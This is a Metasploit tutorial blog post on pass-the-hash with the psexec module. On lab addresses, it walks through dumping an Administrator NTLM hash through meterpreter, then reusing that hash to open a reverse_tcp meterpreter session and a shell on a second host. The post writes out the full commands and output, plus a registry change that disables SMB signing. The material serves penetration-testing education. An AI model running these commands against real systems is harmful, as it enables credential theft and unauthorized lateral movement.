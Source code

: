 ```yaml
---
draft: false
title: MSF PSexec Pass the Hash
weight: 230
linkTitle: PSexec Pass the Hash
translationKey: MSF_PSexec_Pass_the_Hash
date: 2017-05-25T13:17:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: We will use the psexec module to pass the hash value to the target system.
url: /msf-psexec-pass-the-hash/
featured_image: /images/metasploit.jpg
categories:
   - Metasploit Framework
tags:
   - cybersecurity
   - metasploit framework
---
```

The psexec module is usually used during pentest operations. Thanks to this module, it becomes possible to log in to the target system. In normal use, it is enough to obtain the username and password of the system and enter them as a variable in the exploit module.

Normally, the path followed is to obtain the password with the `fgdump`, `pwdump` or `cachedump` commands when the meterpreter shell is opened on the system. If you find `hash` values ​​​​during these searches, we try to solve them using various tools and obtain the open form of the passwords.

However, sometimes you may encounter a different situation. You have opened an `Administrator` authorized session on a system and obtained the user's password formatted as `hash`. When you want to connect to another system on the same network through this system you logged in, you may not need to solve the password of the `Administrator` user. Usually, devices on the network communicate using these `hash` values. The psexec module allows you to use the `hash` value you find as a password.

WARNING-1:

In a system using NTLM, if the `hash` value you will find is in the format `******NOPASSWORD*******:8846f7eaee8fb117ad06bdd830b7586c`, you need to replace the `******NOPASSWORD*******` part at the beginning with 32 zeros and enter it as a variable in `psexec`. In other words, the value should be in the form `00000000000000000000000000000000000:8846f7eaee8fb117ad06bdd830b7586c`.

WARNING-2:

In a lab environment, if you receive the `STATUS_ACCESS_DENIED (Command=117 WordCount=0)` error even though you entered the correct hash value, you should set the `RequireSecuritySignature` value to `0` in the Registry settings of the target Windows system in `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters`.

## Hashdump

Below, a Meterpreter session has been opened using an exploit and the `post/windows/gather/hashdump` module is used to find hash values ​​in the system.

```bash
> Meterpreter session 1 opened (192.168.57.133:443 -> 192.168.57.131:1042)

meterpreter > run post/windows/gather/hashdump

> Obtaining the boot key...
> Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
> Obtaining the user list and keys...
> Decrypting user keys...
> Dumping password hashes...

Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
meterpreter >
```

As you can see, the `e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c` value belonging to the Administrator user at the IP address `RHOST: 192.168.57.131` has been obtained.

Now let's try to log in to the IP address `RHOST: 192.168.57.140` using this hash value. Of course, we assume that you discovered that the `SMB` service is running on the same network at the IP address `192.168.57.140` and port `445` in your previous scan.

## psexec

First, let's start Metasploit Framework with `msfconsole` and load the `psexec` module.

```bash
root@kali:~# msfconsole

                ##                          ###           ##    ##
 ##  ##  #### ###### ####  #####   #####    ##    ####        ######
####### ##  ##  ##  ##         ## ##  ##    ##   ##  ##   ###   ##
####### ######  ##  #####   ####  ##  ##    ##   ##  ##   ##    ##
## # ##     ##  ##  ##  ## ##      #####    ##   ##  ##   ##    ##
##   ##  #### ###   #####   #####     ##   ####   ####   #### ###
                                      ##
       [ metasploit v4.2.0-dev [core:4.2 api:1.0]
+ -- --[ 787 exploits - 425 auxiliary - 128 post
+ -- --[ 238 payloads - 27 encoders - 8 nops
       [ svn r14551 updated yesterday (2012.01.14)

msf > search psexec

Exploits
**========**

   Name                       Description
   ----                       -----------
   windows/smb/psexec         Microsoft Windows Authenticated User Code Execution
   windows/smb/smb_relay      Microsoft Windows SMB Relay Code Execution

msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.57.133
LHOST => 192.168.57.133
msf exploit(psexec) > set LPORT 443
LPORT => 443
msf exploit(psexec) > set RHOST 192.168.57.140
RHOST => 192.168.57.140
msf exploit(psexec) > show options

Module options:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.57.140   yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPass                   no        The password for the specified username
   SMBUser  Administrator    yes       The username to authenticate as
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST     192.168.57.133   yes       The local address
   LPORT     443              yes       The local port
Exploit target:

   Id  Name
   --  ----
   0   Automatic
   ```

## SMBPass

As seen above, we need to enter the `SMBPass` variable in the `exploit/windows/smb/psexec` module. Let's enter the hash value we have in the `SMBPass` variable and run the module with the `exploit` command.

```bash
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
SMBPass => e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit

> Connecting to the server...
> Started reverse handler
> Authenticating as user 'Administrator'...
> Uploading payload...
> Created \KoVCxCjx.exe...
> Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.57.140[\svcctl] ...
> Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.57.140[\svcctl] ...
> Obtaining a service manager handle...
> Creating a new service (XKqtKinn - "MSSeYtOQydnRPWl")...
> Closing service handle...
> Opening service...
> Starting the service...
>Removing the service...
> Closing service handle...
> Deleting \KoVCxCjx.exe...
> Sending stage (719360 bytes)
> Meterpreter session 1 opened (192.168.57.133:443 -> 192.168.57.140:445)

meterpreter > shell
Process 3680 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>
```

As you can see, a session has been opened at the IP address `192.168.57.140`.
